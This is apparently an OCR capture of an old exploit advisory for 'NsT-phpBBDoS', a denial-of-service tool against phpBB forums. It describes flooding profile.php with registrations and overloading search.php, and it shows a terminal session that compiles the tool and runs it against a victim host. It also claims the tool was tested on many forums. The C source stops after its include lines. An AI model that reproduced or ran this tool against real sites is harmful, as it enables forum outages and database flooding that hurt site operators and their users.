     - Tested
    ---------------------------------------------------------
    localhost & many forums

    - Explotation
    ---------------------------------------------------------
    profile.php << By registering as many users as you can.
    search.php  << by searching in a way that the db couln't observe it.

    - Exploit
    ---------------------------------------------------------
    [C Source]

      Name: NsT-phpBBDoS
      Copyright: NeoSecurityteam
      Author: HaCkZaTaN
      Date: 19/06/05
      Description: xD You must figure out the problem xD

      root@NeoSecurity:/home/hackzatan# pico NsT-phpBBDoS.c
      root@NeoSecurity:/home/hackzatan# gcc NsT-phpBBDoS.c -o NsT-phpBBDoS
      root@NeoSecurity:/home/hackzatan# ./NsT-phpBBDoS
      [+] NsT-phpBBDoS v0.1 by HaCkZaTaN
      [+] NeoSecurityTeam
      [+] Dos has begun....[+]

      [*] Use: ./NsT-phpBBDoS <path> <search.php or profile.php> <Host>
      [*] Example: ./NsT-phpBBDoS /phpBB/ profile.php Victimshost.com
      root@NeoSecurity:/home/hackzatan# ./NsT-phpBBDoS /phpBB/ profile.php Victimshost.com
      [+] NsT-phpBBDoS v0.1 by HaCkZaTaN
      [+] NeoSecurityTeam
      [+] Dos has begun....[+]

      .................................
      root@NeoSecurity:/home/hackzatan# echo "Let see how many users I have created"
      root@NeoSecurity:/home/hackzatan# set | grep MACHTYPE
      MACHTYPE=i486-slackware-linux-gnu
      root@NeoSecurity:/home/hackzatan#

    */

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <ctype.h>
    #include <errno.h>
    #ifdef WIN32
    #include <winsock2.h>
    #pragma comment(lib, "ws2_32")
    #pragma pack(1)
    #define WIN32_LEAN_AND_MEAN
    #else
    #include <unistd.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <arpa/inet.h>
    #include <netdb.h>
    #endif
